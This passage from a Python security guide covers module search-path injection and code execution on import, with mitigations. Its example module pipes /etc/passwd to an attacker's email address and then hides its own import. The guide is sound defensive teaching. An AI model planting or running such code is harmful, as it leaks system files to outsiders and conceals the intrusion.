 On Windows platform, instead of script location, current working
directory of the Python process is
[injected](https://docs.python.org/3/using/windows.html#finding-modules)
into the search path. On UNIX platforms, current working directory
is automatically inserted into `sys.path` whenever program code is
read from stdin or command line (`-` or `-m` options):

~~~
   $ python -c 'import sys, pprint; pprint.pprint(sys.path)'
   ['',
    '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
    '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
    ...]
   $
   $ cd /tmp
   $ python -m myapp
   ['',
    '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
    '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
    ...]
~~~

To mitigate the risk of module injection from current working
directory explicitly changing directory to a safe one is recommended
prior to running Python on Windows or passing code through
command line.

Another possible source for the search path is the contents of the
`$PYTHONPATH` environment variable. An easy mitigation against
`sys.path` population from process environment is the `-E`
option to Python interpreter which makes it ignoring
`$PYTHONPATH` variable.


Code execution on import
------------------------

It may not look obvious that the `import` statement actually leads
to execution of the code in the module being imported. That is why
even importing mistrustful module or package is risky. Importing
simple module like this may lead to unpleasant consequences:

~~~
   $ cat malicious.py
   import os
   import sys

   os.system('cat /etc/passwd | mail attacker@blackhat.com')

   del sys.modules['malicious']  # pretend it's not imported
   $ python
   >>> import malicious
   >>> dir(malicious)
   Traceback (most recent call last):
   NameError: name 'malicious' is not defined
~~~
